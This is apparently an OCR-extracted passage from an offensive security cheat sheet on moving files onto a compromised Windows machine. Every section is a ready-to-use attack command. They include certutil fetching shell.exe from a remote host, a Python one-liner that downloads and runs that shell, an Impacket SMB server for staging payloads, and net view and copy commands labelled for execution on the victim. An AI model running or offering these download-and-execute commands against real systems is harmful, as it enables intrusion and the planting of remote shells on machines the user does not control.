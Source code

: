\-\-\- 




### Download 


certutil\.exe \-urlcache \-f http://192\.168\.0\.1/shell\.exe C:\\Windows\\Temp\\shell\.exe


\-\-\- 




### Download & Execute Python Command 


os\.execute\('cmd\.exe /c certutil\.exe \-urlcache \-split \-f http://192\.168\.0\.1/shell\.exe C:\\Windows\\Temp\\shell\.exe \& C:\\Windows\\Temp\\shell\.exe'\)



## SMB 




\-\-\- 




### Start Impacket SMB Server (With SMB2 Support) 


impacket\-smbserver \-smb2support server\_name /var/www/html


\-\-\- 




### List Drives (Execute on Victim) 


net view \\\\192\.168\.0\.1


\-\-\- 




### Copy Files (Execute on Victim) 


copy \\\\192\.168\.0\.1\\server\_name\\shell\.exe shell\.exe

## PureFTP 




\-\-\- 
